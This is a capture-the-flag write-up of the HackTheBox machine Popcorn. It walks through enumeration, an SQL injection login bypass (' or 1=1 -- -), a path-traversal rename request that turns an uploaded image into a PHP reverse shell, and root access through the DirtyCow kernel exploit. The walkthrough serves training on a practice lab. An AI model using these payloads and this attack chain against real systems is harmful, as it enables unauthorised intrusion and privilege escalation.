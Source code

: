 ```yaml
---
title: "HackTheBox - Popcorn"
author: Nasrallah
description: ""
date: 2023-05-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, kernel, sqli]
img_path: /assets/img/hackthebox/machines/popcorn
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [PopCorn](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). 

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.6
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running SSH and 80 is an Apache http web server, and this is an Ubuntu box.

### Web

Let's check the web page.

![](1.png)

It's a default web page, nothing interesting.

#### Feroxbuster

Let's scan for directories and files.

```terminal
$ feroxbuster -w /usr/share/wordlists/dirb/big.txt -o scans/fero.txt -u http://10.10.10.6/ -n -x txt,php                                             1 ⨯ 
                                                                                                                                                              
 ___  ___  __   __     __      __         __   ___                                                                                                            
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__                                                                                                             
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___                                                                                                            
by Ben "epi" Risher 🤓                 ver: 2.7.2                                                                                                             
───────────────────────────┬──────────────────────                                                                                                            
 🎯  Target Url            │ http://10.10.10.6/                                                                                                               
 🚀  Threads               │ 50                                                                                                                               
 📖  Wordlist              │ /usr/share/wordlists/dirb/big.txt                                                                                                
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]                                                                               
 💥  Timeout (secs)        │ 7                                                                                                                                
 🦡  User-Agent            │ feroxbuster/2.7.2                                                                                                                
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml                                                                                               
 💾  Output File           │ scans/fero.txt                                                                                                                   
 💲  Extensions            │ [txt, php]                                                                                                                       
 🏁  HTTP methods          │ [GET]                                                                                                                            
 🚫  Do Not Recurse        │ true                                                                                                                             
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest                                                                            
───────────────────────────┴──────────────────────                                                                                                            
 🏁  Press [ENTER] to use the Scan Management Menu™                                                                                                           
──────────────────────────────────────────────────                        
403      GET       10l       30w      287c http://10.10.10.6/.htpasswd                                                                                        
200      GET        4l       25w      177c http://10.10.10.6/
403      GET       10l       30w      291c http://10.10.10.6/.htpasswd.txt
403      GET       10l       30w      291c http://10.10.10.6/.htpasswd.php
403      GET       10l       30w      287c http://10.10.10.6/.htaccess
403      GET       10l       30w      291c http://10.10.10.6/.htaccess.txt
403      GET       10l       30w      291c http://10.10.10.6/.htaccess.php
403      GET       10l       30w      286c http://10.10.10.6/cgi-bin/
200      GET        4l       25w      177c http://10.10.10.6/index
301      GET        9l       28w      309c http://10.10.10.6/rename => http://10.10.10.6/rename/
200      GET      654l     3106w        0c http://10.10.10.6/test
200      GET      652l     3096w        0c http://10.10.10.6/test.php
301      GET        9l       28w      310c http://10.10.10.6/torrent => http://10.10.10.6/torrent/
[####################] - 3m     61407/61407   0s      found:13      errors:4       
[####################] - 3m     61407/61407   322/s   http://10.10.10.6/ 
```

We found two interesting pages `rename` and `torrent`.

Let's check the first one.

![](2.png)

It gave us a syntax we can use to change file names which is :

```url
index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
```

Let's check the `torrent` page.

![](3.png)

This is torrent hoster. I tried going to the `upload` page but it gave me a login page.

![](4.png)

I tried default credentials but no luck with that, then i tried sql injection and logged in successfully with the payload `' or 1=1 -- -`

![](5.png)

## **Foothold**

Now i can access the upload page, i tried uploading files with different format but i get invalid format every time.

On the browse page we see a kali linux file, let's click on it.

![](6.png)

I clicked on `edit this torrent` and got the following:

![](7.png)

We can update the screenshot by uploading images. With that I submitted an image an indeed it got updated.

![](8.png)

Now i remembered the rename function we saw earlier and used it to rename the image i uploaded.

The image is located at `http://10.10.10.6/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png` so i made the following GET request to change the name.

```url
http://10.10.10.6/rename/index.php?filename=../torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png&newfilename=codium.png
```

Now we go to `http://10.10.10.6/rename/codium.png` we can see the image is there.

For a reverse shell, we can upload a php reverse shell with a `png` extension then use the rename function to update the extension back to `php`.

![](9.png)

The name is still the same SHA1 hash, so we can use the same filename and change the newfilename to `shell.php`

```url
http://10.10.10.6/rename/index.php?filename=../torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.png&newfilename=shell.php
```

Now we setup a listener and go to `http://10.10.10.6/rename/shell.php`

![](10.png)

We got a shell!

## **Privilege Escalation**

After some manual enumeration that led to nothing useful I checked for linux kernel.

```terminal
www-data@popcorn:/var/www/rename$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

Searching on google for this kernel we find it's vulnerable to the famous `DirtyCow` exploit.

![](11.png)

The exploit i used is this [one](https://www.exploit-db.com/exploits/40839).

We upload the exploit to the target, compile it and run it.

![](12.png)

Once we run the exploit, it changes the `/etc/passwd` file and adds a new user called `firefart`, we get prompted for a new password for that user and after the exploit finishes it's job we can ssh to the target as `firefart` and have root privileges.

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).